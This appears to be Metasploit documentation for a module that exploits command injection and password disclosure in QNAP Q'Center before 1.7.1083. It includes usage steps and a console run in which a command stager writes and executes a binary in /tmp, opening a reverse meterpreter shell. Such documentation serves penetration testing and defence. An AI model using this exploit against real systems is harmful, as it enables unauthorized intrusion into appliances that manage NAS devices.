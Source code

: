 ## Description

  This module exploits a command injection vulnerability in the
  `change_passwd` API method within the web interface of QNAP Q'Center
  virtual appliance versions prior to 1.7.1083.

  The vulnerability allows the `admin` privileged user account to
  execute arbitrary commands as the `admin` operating system user.

  Valid credentials for the `admin` user account are required, however,
  this module also exploits a separate password disclosure issue which
  allows any authenticated user to view the password set for the `admin`
  user during first install.


## Vulnerable Application
 
  [QNAP Q'Center](https://www.qnap.com/solution/qcenter/index.php) is a central
  management platform that enables you to consolidate the management of multiple
  QNAP NAS devices.

  This module has been tested successfully on QNAP Q'Center appliance
  version 1.6.1075.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/http/qnap_qcenter_change_passwd_exec`
  3. `set RHOSTS <IP>`
  4. `set USERNAME <USERNAME>` (default: `admin`)
  5. `set PASSOWRD <PASSWORD>` (default: `admin`)
  6. `run`
  7. You should get a session


## Options

  **USERNAME**

  Username for the application. (default: `admin`)

  **PASSWORD**

  Password for the application. (default: `admin`)


## Scenarios

  ```
  msf5 > use exploit/linux/http/qnap_qcenter_change_passwd_exec 
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set rhosts 10.1.1.112
  rhosts => 10.1.1.112
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set verbose true
  verbose => true
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > check
  
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [*] 10.1.1.112:443 The target appears to be vulnerable.
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > run
  
  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [+] Authenticated as user 'admin' successfully
  [*] Sending payload ...
  [*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\12\\1\\1\\305\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170\\20\\133\\211\\341\\231\\266\\14\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/ivFxR ; chmod +x /tmp/ivFxR ; /tmp/ivFxR ; rm -f /tmp/ivFxR"]
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 10.1.1.112
  [*] Command Stager progress - 100.00% done (701/701 bytes)
  
  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > sysinfo
  Computer     : 10.1.1.112
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

